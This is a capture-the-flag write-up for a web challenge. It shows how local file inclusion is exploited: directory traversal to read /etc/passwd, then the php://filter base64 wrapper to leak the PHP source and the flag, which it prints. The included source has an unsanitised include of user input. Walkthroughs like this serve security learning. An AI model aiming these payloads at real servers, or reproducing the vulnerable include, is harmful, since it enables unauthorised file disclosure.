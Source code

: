 # Challenge Name: Loose Funding Interest 2


![date](https://img.shields.io/badge/date-08.03.2022-brightgreen.svg)  
![solved after CTF](https://img.shields.io/badge/solved-after%20CTF-red.svg)       
![category](https://img.shields.io/badge/category-WEB-blueviolet.svg)   
![value](https://img.shields.io/badge/value-40-blue.svg)  

## Description

Created By **m4rc0s**

The same as Loose Funding Interest but a little harder, the same payload fails …

I think they have a WAF or some mechanism, how can I bypass this?

> **Hint** Can you extract the flag in base64 ?

http://35.178.97.233

## Detailed solution

![image](https://user-images.githubusercontent.com/72421091/157303780-66ed51b2-b849-4c7f-974a-6498f78a8863.png)

We have two pages at navbar

http://35.178.97.233/index.php?file=pages/forum.html
http://35.178.97.233/index.php?file=pages/news.html

We have a **file** parametre that take the location of file to display it. We probably can exploit local file inclusion

Let's try to read /etc/password  

http://35.178.97.233/index.php?file=../../../../../../../../../etc/passwd

![image](https://user-images.githubusercontent.com/72421091/157304152-6cd0cc76-9154-477a-8d59-fa65657b2c5d.png)

As we can see we were able to use LFI to read the /etc/passsword file now let's read the index.php

If we try to read directly the index.php file we gonna get some errors  

I'll use the base64 php wrapper to get the full source code  

http://35.178.97.233/index.php?file=php://filter/convert.base64-encode/resource=index.php

```
PD9waHAKJGZpbGVuYW1lID0gKGlzc2V0KCRfR0VUWyJmaWxlIl0pPyRfR0VUWyJmaWxlIl06InBhZ2VzL3dlbGNvbWUuaHRtbCIpOwppZigkX0dFVFsiZmlsZSJdID09ICJwYWdlcy9mbGFnIiApewoJZWNobyAiQmFhYWFhYWQgSGFja2VyIjsKfSBlbHNlIGluY2x1ZGUgJGZpbGVuYW1lOw==
```

Let's decode it i'll use cyberchef https://gchq.github.io/CyberChef/

```phph
<?php
$filename = (isset($_GET["file"])?$_GET["file"]:"pages/welcome.html");
if($_GET["file"] == "pages/flag" ){
	echo "Baaaaaad Hacker";
} else include $filename;
```

The flag is located at pages/flag let's use the same wrapper to read it

http://35.178.97.233/index.php?file=php://filter/convert.base64-encode/resource=pages/flag

```
Q1JJU0lTe2I3Zjg0NTkzODkzfQ==
```

Decode base64 => CRISIS{b7f84593893} 

## Flag

```
CRISIS{b7f84593893}
```
